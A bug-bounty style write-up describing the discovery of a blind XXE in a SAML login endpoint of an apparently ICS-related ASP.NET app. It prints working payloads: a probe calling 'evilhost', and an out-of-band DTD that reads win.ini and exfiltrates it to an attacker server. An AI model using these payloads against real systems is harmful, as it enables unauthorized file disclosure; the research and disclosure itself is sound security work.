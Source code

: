 ```yaml
---
title: "Discovering a Blind XXE in an ICS Web App"
date: 2024-06-03
tags: ["vuln-research", "web-hacking", "bug-bounty"]
draft: false
---
```


# Public Security Research: XML External Entities Vulnerability Discovery

Recently, I did some public security research and discovered a critical security vulnerability in a login portal. The login portal was using SAML protocol for SSO authentication with a vulnerable XML parser in the backend. This allows for an attacker (or researcher like me) to exploit an XXE and perform sensitive file read on the server. In this writeup, I'll be discussing my methodology and how I discovered this vulnerability.

## The Target

When conducting security research on a web application target, recon and enumeration is one of the first and most important thing that you'll do. While I was fuzzing the main domain's directories and files, I came across an endpoint that was returning an HTTP 500 error called logout.aspx. This gave me several key information. I knew that the web server was running on windows and the application is running ASP.NET framework. 

When I'm on an endpoint, I like to use the features and functionality of the app to try to understand what the application is doing. This logout.aspx endpoint was returning an error with verbose error message in the response. When taking a look at the source code it seems like the endpoint was taking some parameters in a POST request when a user is logging on. Those two parameters with SAMLRequest and SAMLResponse. 

## The vulnerability

The SAMLResponse parameter when captured with a proxy had a base64 url encoded XML string to send via SAML in the backend for authentication purposes. If the backend XML parser is not properly sanitizing inputs or hardened then an attacker could manipulate the parameters with malicious XML.

I tested for this by encoding a basic XML payload:

```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY % asd SYSTEM "http://evilhost"> %asd;]>
```

When I sent that POST request, the server responsed saying that it could not resolve remote host named http://evilhost. This means that the XML parser is executing our code.

I modified the payload with my own web server and on my server log got a ping back from the vulnerable web server. At this point, I knew this portal was vulnerable to an XXE attack.

## Sensitive File Read

Now that I had identified a vulnerability, I wanted to demonstrate some impact. I was not able to read a file and have the contents returned to me in the server's response. This makes the XXE a blind XXE vulnerability. So, how can we escalate to achieve file read? 

### XXE OOB Exfiltration

One thing we can do is to perform an out of band data exfiltration. 

Out of band exfiltration is a technique where an attacker uses an external, often secondary channel to exfiltrate data. Instead of directly returning the data in the application's response (in band), the attacker causes the application to send the data to an external server they control. 

We can host an XML document that defines an external entity to retrieve the contents of a file and send it to our web server. In my case, I created a dtd file with the following payload:

```
<!ENTITY % file SYSTEM "file:///C:\windows\win.ini">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://IP:PORT/?data=%file;'>">
%eval;
%exfil;
```
Now, to trigger the vulnerability I will send in a POST request with the following payload url and base64 encoded:

```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % asd SYSTEM "http://IP:PORT/test.dtd">%asd;]><foo>&send;</foo>
```

In the first part, when we send this payload, the xml parser will process the payload to hit our dtd file. Then the xml parser will process the external dtd file that I created which will instruct it to fetch C:\windows\win.ini and send it back to my web server. The end result will have the file contents of the file encoded in our web server's log and we can easily decode to read the file contents.

![File Contents Retrieved](/images/xxe_results.png)

Thank you for reading this short writeup on discovering a Blind XXE on a public web application. I have reported this vulnerability to the proper authorities and they have now implemented security measures against this attack!
